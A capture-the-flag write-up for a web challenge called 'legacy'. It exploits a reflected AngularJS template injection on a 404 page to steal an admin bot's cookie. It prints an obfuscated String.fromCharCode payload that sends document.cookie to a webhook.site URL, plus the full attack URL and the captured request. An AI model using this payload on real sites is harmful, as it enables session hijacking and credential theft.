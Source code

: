 # legacy
> Just because it's legacy doesn't mean its not on the internet

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin


[Image extracted text: Visit this_
link
to play
Admin
contact
form!
Submit
url
with
here
(max
requests
Per
minutes)
and
admin
Will
take
look:
http Illegacy-
ctf_hackaplaneten se.8000/ .
Submit]


And another website that using AngularJS


[Image extracted text: 6 7
Not secure
legacy-1ctfhackaplaneten se.8001
Helle About
Index]


## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `helloworld.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var myApp = angular.module('helloworld', ['ui.router']);

myApp.config(function($stateProvider) {
  var helloState = {
    name: 'hello',
    url: '/hello',
    template: '<h3>hello world!</h3>'
  }

  var aboutState = {
    name: 'about',
    url: '/about',
    template: '<h3>Its the UI-Router hello world app!</h3>'
  }

  var indexState = {
    name: 'index',
    url: '/',
    template: '<h3>Index</h3>'
  }

  template = document.createElement("span")
  template.innerHTML = "<h3>404</h3>path not found: "
  sanitizer = document.createElement("code")
  sanitizer.innerText = document.location
  template.appendChild(sanitizer)
  var f04State = {
    name: '404',
    url: '/404',
    template: template.innerHTML
  };

  $stateProvider.state(helloState);
  $stateProvider.state(aboutState);
  $stateProvider.state(indexState);
  $stateProvider.state(f04State);
});

myApp.config(["$locationProvider","$urlRouterProvider", function($locationProvider,$urlRouterProvider) {
  $locationProvider.html5Mode(true);
  console.log($urlRouterProvider);
  $urlRouterProvider.otherwise('/404');
}]);
```

As you can see, we can input the payload in the 404 page. So Im using this angular payload to solve this chall (Im using [Portswigger cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter)) as a reference)

```angular
{{$on.constructor('alert(1)')()}}
```

And in order to obtain the flag, we need to change the payload like this

```angular
{{$on.constructor('eval(String.fromCharCode(118,97,114,32,105,61,110,101,119,32,73,109,97,103,101,40,41,59,32,105,46,115,114,99,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,52,55,99,50,99,100,99,57,45,49,50,51,51,45,52,97,99,56,45,56,101,56,98,45,53,53,101,102,101,48,54,97,101,98,50,99,47,63,99,111,111,107,105,101,61,34,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))')()}}
```

At first, I was using a normal payload to send the cookie to my webhook. However, the website kept encoding my payload. As a result, I decided to use `String.fromCharCode` to address this issue. Here is the final URL structure that I came up with:

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(118,97,114,32,105,61,110,101,119,32,73,109,97,103,101,40,41,59,32,105,46,115,114,99,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,52,55,99,50,99,100,99,57,45,49,50,51,51,45,52,97,99,56,45,56,101,56,98,45,53,53,101,102,101,48,54,97,101,98,50,99,47,63,99,111,111,107,105,101,61,34,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))')()}}
```

Check your webhook, and you will see base64 encoded msg in `cookie` parameter


[Image extracted text: Request Details
Permalink
Raw content
Export as
Headers
GET
https Itwebhook site/47c2cdc9-1233-4ac8-8e8b-55efeO6aeb2c/?cookie-RkxBRzITRUNG
connection
close
RVNUeOwzZzRjeVIsMOBrX3cxdGhfMGxkXZNPZDNNVHczQWt9OyBkdWIteT1sZWdhY3k
accept-encoding
gzip, deflate,
referer
http://legacy-1.ctf hackaplaneten
8001/
Host
164.92.129.231 whois
sec-fetch-dest
image
Date
05/25/2023 8.07.10 PM (21 hours ago)
sec-fetch-mode
no-cors
Size
bytes
sec-fetch-site
cross-site
799d7c87-a26e-4ee6-8a71-17c224c970a7
accept
image/avif 
/webp, image/apng, image/ Svg+xml, image/",* /*;0=8.8
Files
sec-ch-ua-platform
Linux'
user-agent
Mozilla/5,
(X11;
Linux x86_64) ApplellebKit/537.36
(KHTML,
like
Gecko
sec-ch-ua-mobile
sec-ch-ua
'HeadlessChrome"
V="113"
Chromium
"113
Not-A.Brand
host
webhcok
site
content-length
content-type
image_
;V=
;V=]


```
SECFEST{L3g4cy_l3@k_w1th_0ld_cOd3_Tw3Ak}
```